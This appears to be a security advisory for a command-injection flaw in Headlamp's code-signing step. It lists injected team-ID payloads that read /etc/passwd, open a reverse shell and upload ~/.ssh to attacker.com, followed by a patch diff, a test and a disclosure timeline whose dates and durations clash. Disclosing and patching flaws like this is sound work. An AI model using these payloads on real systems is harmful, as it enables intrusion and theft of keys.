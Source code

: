 ## Complete Exploit Catalog

### Payload

1. **Information Disclosure**:
   ```bash
   "TeamID\" && cat /etc/passwd > /tmp/stolen #"
   ```

2. **Reverse Shell**:
   ```bash
   "TeamID\" && bash -i >& /dev/tcp/10.0.0.1/4242 0>&1 #"
   ```

3. **Data Exfiltration**:
   ```bash
   "TeamID\" && tar -czf /tmp/secrets.tar.gz ~/.ssh && curl -T /tmp/secrets.tar.gz https://attacker.com #"
   ```

## Patch Analysis

### Key Fixes in PR #3377

1. **execSync → execFileSync Migration**:
   ```diff
   - execSync(`codesign ${args}`)
   + execFileSync('codesign', argsArray)
   ```

2. **Argument Array Usage**:
   - Each parameter passed separately
   - No shell string construction

### Patch Verification Test
```javascript
it('should reject malicious team IDs', () => {
  process.env.DEVELOPER_TEAM_ID = 'TeamID" && malicious #';
  expect(() => codeSign({ app: 'Headlamp.app' }))
    .toThrow(/spawnSync codesign/);
});
```

## Disclosure Timeline

| Date (UTC)       | Event                                  | Duration  | Parties Involved       |
|------------------|----------------------------------------|-----------|------------------------|
| 2025-05-28 08:45 | Initial discovery during audit         | -         | @odaysec               |
| 2025-05-28 11:30 | PoC validation                         | 2h45m     | Research Team          |
| 2025-05-28 09:00 | Report submitted to Kubernetes Security | 21h30m    | SIG-Security           |
| 2025-06-01 14:15 | Vulnerability confirmed                | 1d5h15m   | Headlamp Maintainers   |
| 2025-06-01 10:00 | Patch development started              | 1d19h45m  | Core Contributors      |
| 2025-06-01 16:00 | Security review completed              | 3d6h      | Kubernetes Security    |
| 2025-06-01 09:00 | Fix deployed in release [5bc0a9d](https://github.com/kubernetes-sigs/headlamp/commit/5bc0a9dd87acdf1e04be14619acde687eefa35fb)        | 17h       | Release Team           |

